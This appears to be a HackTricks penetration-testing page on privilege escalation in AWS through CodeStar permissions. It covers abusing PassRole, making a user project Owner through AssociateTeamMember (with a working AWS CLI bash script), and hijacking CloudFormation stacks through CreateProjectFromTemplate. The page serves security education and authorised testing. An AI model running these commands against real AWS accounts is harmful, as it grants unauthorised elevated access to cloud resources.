 # AWS - Codestar Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Codestar

You can find more information about codestar in:

{{#ref}}
codestar-createproject-codestar-associateteammember.md
{{#endref}}

### `iam:PassRole`, `codestar:CreateProject`

With these permissions you can **abuse a codestar IAM Role** to perform **arbitrary actions** through a **cloudformation template**. Check the following page:

{{#ref}}
iam-passrole-codestar-createproject.md
{{#endref}}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

This technique uses `codestar:CreateProject` to create a codestar project, and `codestar:AssociateTeamMember` to make an IAM user the **owner** of a new CodeStar **project**, which will grant them a **new policy with a few extra permissions**.

```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
    --name $PROJECT_NAME \
    --id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
    --project-id $PROJECT_NAME \
    --user-arn "$USER_ARN" \
    --project-role "Owner" \
    --remote-access-allowed
```

If you are already a **member of the project** you can use the permission **`codestar:UpdateTeamMember`** to **update your role** to owner instead of `codestar:AssociateTeamMember`

**Potential Impact:** Privesc to the codestar policy generated. You can find an example of that policy in:

{{#ref}}
codestar-createproject-codestar-associateteammember.md
{{#endref}}

### `codestar:CreateProjectFromTemplate`

1. **Create a New Project:**
   - Utilize the **`codestar:CreateProjectFromTemplate`** action to initiate the creation of a new project.
     - Upon successful creation, access is automatically granted for **`cloudformation:UpdateStack`**.
     - This access specifically targets a stack associated with the `CodeStarWorker-<generic project name>-CloudFormation` IAM role.
2. **Update the Target Stack:**
   - With the granted CloudFormation permissions, proceed to update the specified stack.
     - The stack's name will typically conform to one of two patterns:
       - `awscodestar-<generic project name>-infrastructure`
       - `awscodestar-<generic project name>-lambda`
       - The exact name depends on the chosen template (referencing the example exploit script).
3. **Access and Permissions:**
   - Post-update, you obtain the capabilities assigned to the **CloudFormation IAM role** linked with the stack.
   - Note: This does not inherently provide full administrator privileges. Additional misconfigured resources within the environment might be required to elevate privileges further.

For more information check the original research: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
You can find the exploit in [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py)

**Potential Impact:** Privesc to cloudformation IAM role.

{{#include ../../../../banners/hacktricks-training.md}}




